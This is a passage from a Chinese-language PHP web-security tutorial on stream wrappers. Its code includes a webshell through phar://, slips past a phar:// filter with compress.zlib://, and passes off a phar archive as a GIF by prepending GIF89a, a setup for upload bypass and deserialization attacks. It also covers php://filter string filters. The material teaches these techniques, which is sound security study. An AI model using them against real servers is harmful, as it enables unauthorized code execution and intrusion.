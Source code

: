 访问callphar.php即可调用shell.php，注意：phar文件不受文件名限制，即my.phar可以任意的重命名为aaa.bbb
```php
callphar.php
<?php
    include 'phar://aaa.bbb/shell.php';
?>
```
如果不能使用phar://开头，我们可以使用的是 compress.zlib://phar://xxxx 这种方式进行绕过滤。
## **phar更改文件头魔术**
在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是__HALT_COMPILER();?>这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。
```php

$phar = new Phar('phar.phar');
$phar -> startBuffering();
// 增加GIF89a文件magic
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
$phar ->addFromString('test.txt','<?php phpinfo(); ?>');  //添加要压缩的文件
$object = new TestObject();
$object -> data = 'hu3sky';
$phar -> setMetadata($object);  //将自定义meta-data存入manifest
$phar -> stopBuffering();
```
## **php://filter**
![avatar](../images/php_filter.png)
```php
/* 这简单等同于：
  readfile("http://www.example.com");
  实际上没有指定过滤器 */
readfile("php://filter/resource=http://www.example.com");
/* 这会以大写字母输出 www.example.com 的全部内容 */
readfile("php://filter/read=string.toupper/resource=http://www.example.com");
/* 这会和以上所做的一样，但还会用 ROT13 加密。 */
readfile("php://filter/read=string.toupper|string.rot13/resource=http://www.example.com");
/* 这会通过 rot13 过滤器筛选出字符 "Hello World"
  然后写入当前目录下的 example.txt */
file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");
```
1、字符串过滤器：
* string.rot13 对字符串执行ROT13转换
* string.toupper转换为大写
* string.tolower 转换为小写
* string.strip_tags去除html和php标记
